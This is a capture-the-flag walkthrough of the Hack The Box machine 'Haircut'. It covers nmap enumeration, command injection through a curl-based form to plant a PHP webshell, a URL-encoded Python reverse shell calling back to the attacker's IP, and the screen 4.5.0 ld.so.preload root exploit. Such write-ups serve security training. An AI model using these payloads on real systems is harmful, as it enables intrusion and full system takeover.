







# Haircut (`10.10.10.24`)

## Summary

Command injection on a webpage to upload a webshell, `screen 4.5.0` privesc.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports haircut.htb
Nmap scan report for haircut.htb (10.10.10.24)
Host is up, received user-set (0.074s latency).
Scanned at 2020-10-24 16:13:06 EDT for 4035s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo4pezhJs9c3u8vPWIL9eW4qxQOrHCslAdMftg/p1HDLCKc+9otg+MmQMlxF7jzEu8vJ0GPfg5ONRxlsfx1mwmAXmKLh9GK4WD2pFbg4iFiAO/BAUjs3dNdR1S9wR6F+yRc2jgIyKFJO3JohZZFnM6BrTkZO7+IkSF6b3z2qzaWorHZW04XHdbxKjVCHpU5ewWQ5B32ScKRJE8bsi04Z2lE5vk1NWK15gOqmuyEBK8fcQpD1zCI6bPc5qZlwrRv4r4krCb1h8zYtAwVnoZdtYVopfACgWHxqe+/8YqS8qo4nPfEXq8LkUc2VWmFztWMCBuwVFvW8Pf34VDD4dEiIwz
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLrPH0YEefX9y/Kyg9prbVSPe3U7fH06/909UK8mAIm3eb6PWCCwXYC7xZcow1ILYvxF1GTaXYTHeDF6VqX0dzc=
|   256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA+vUE7P+f2aiWmwJRuLE2qsDHrzJUzJLleMvKmIHoKM
80/tcp open  http    syn-ack ttl 63 nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
```



`/exposed.php` looks interesting.



Passing `-V` to the form I found shows the text is passed directly to `curl`.

I'll upload a webshell using the `-O` option to write to a file.



I start a python webserver on port 80 and run this command in the webpage: `http://10.10.14.22/cmd.php -O uploads/cmd.php`. I then go to `http://haircut.htb/cmd.php?cmd=whoami` and see the following:



## Reverse Shell

`$ sudo nc -lvnp 443`

`http://haircut.htb/uploads/cmd.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.22%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`




## Upgrading Shell

`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Privilege Escalation

We now have access to the user proof.

I notice `screen 4.5.0` installed. I use https://www.exploit-db.com/exploits/41154 to get `root`.

I compile `rootshell` and `libhax.so` locally on Kali and move them over using `wget` on the . I'm using a 64 bit system so I don't have to compile for a different architecture. I then run the following commands on the target and get a root shell.

```bash
$ echo "[+] Now we create our /etc/ld.so.preload file..."
$ cd /etc
$ umask 000 # because
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
$ echo "[+] Triggering..."
$ screen -ls # screen itself is setuid, so... 
$ /tmp/rootshell
```


## Proof

